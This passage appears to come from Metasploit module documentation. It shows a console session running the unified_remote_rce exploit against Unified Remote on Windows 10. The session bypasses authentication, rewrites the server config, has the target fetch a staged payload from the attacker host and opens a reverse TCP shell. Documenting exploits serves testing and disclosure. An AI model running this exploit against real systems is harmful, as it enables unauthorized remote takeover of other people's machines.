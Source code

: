 ### Version 3.11.0.2483 on Windows 10, group authentication, visible true

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-ergZhp49nDBmGXz8
[*] 2.2.2.2:9512 - Retrieving server config
[*] 2.2.2.2:9512 - anonymous mode enabled, password required, bypassing
[*] 2.2.2.2:9512 - Uploading new server config
[*] 2.2.2.2:9512 - Sleeping 5 seconds for server to restart
[+] 2.2.2.2:9512 - Found account: admin
[+] 2.2.2.2:9512 - Found account: wheres
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Opening Start Menu
[*] 2.2.2.2:9512 - Opening command prompt
[*] 2.2.2.2:9512 - Typing out payload
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Attempting to open payload
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] 2.2.2.2:9512 - Reverting security mode
[*] 2.2.2.2:9512 - Uploading new server config
[*] 2.2.2.2:9512 - Sleeping 5 seconds for server to restart
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:59596) at 2022-09-08 16:50:21 -0400
[*] 2.2.2.2:9512 - Server stopped.
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\lqVUQTKtxuSD1mm.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>
```

### Version 3.11.0.2483 on Windows 10, user authentication, visible true
